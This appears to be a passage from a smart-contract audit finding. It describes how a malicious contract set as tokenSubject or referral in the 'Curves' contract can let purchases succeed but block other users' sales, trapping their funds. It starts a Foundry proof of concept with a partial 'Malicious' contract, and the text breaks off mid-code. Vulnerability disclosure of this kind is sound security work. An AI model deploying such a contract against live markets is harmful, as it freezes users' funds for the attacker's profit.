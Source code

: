 Malicious actor can create a contract and make tokenSubject a contract, not EOA.
Unprotected call is not a big problem alone because CEI pattern is implemented in contract and re-entrancy won't create a problem. If malicious contract reverts on transfer calls this is not also a problem since in this case nobody can buy or sell tokens including malicious actor.

But there is a way to create a malicious contract such that buyCurvesTokens() calls won't fail but sellCurvesTokens() call will fail (except malicious actor's sell call). If this happens (Which I will make it happen with PoC in the upcoming part), all users other than malicious actor will lose their funds(they will be stuck in the contract), while malicious actor profit because of token valuation.

**IMPORTANT** : Same is true for referral call, exact same steps can be applied by malicious referral. Also subject is the one who choose the referral adress, hence in this matter subject can be EOA and choose referral as a malicious contract which leads to same vulnerability that I will explain below. But to make it simple I am just writing the details for subject, but all I am providing is also true for referral call and it should be prevented.
## Proof of Concept
Setup:
1. Create a new folder and run "forge init" inside.
2. Paste all 4 contracts that are related to audit to the src folder.
3. Install openzeppelin via "forge install openzeppelin/openzeppelin-contracts@v4.9.3
4. Create a remappings.txt in the root folder and paste the following:
"@openzeppelin/=lib/openzeppelin-contracts/"
5. Create a test file in test folder named Curves.t.sol
6. Paste the following setup inside:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.7;

import {Test, console2} from "forge-std/Test.sol";
import {Curves} from "../src/Curves.sol";
import {CurvesERC20} from "../src/CurvesERC20.sol";
import {FeeSplitter} from "../src/FeeSplitter.sol";
import {Security} from "../src/Security.sol";
import {CurvesERC20Factory} from "../src/CurvesERC20Factory.sol";

interface ICurves {
    function buyCurvesToken(address, uint256) external payable;
    function getBuyPriceAfterFee(address, uint256) external returns(uint256);
    function curvesTokenSupply(address) external returns(uint256);
}
contract Malicious {

    uint256 public lastSupply;
    address public curves;
    bool public locked;


    constructor (address _curves) payable {
        curves = _curves;
        locked = true;
    }

    function buyFirstTime() public {
        ICurves(curves).buyCurvesToken(address(this), 1);
    }

    function updateSupply() public {
        lastSupply = ICurves(curves).curvesTokenSupply(address(this));
    }

    function changeLock(bool isLocked) public {
        locked = isLocked;
    }
```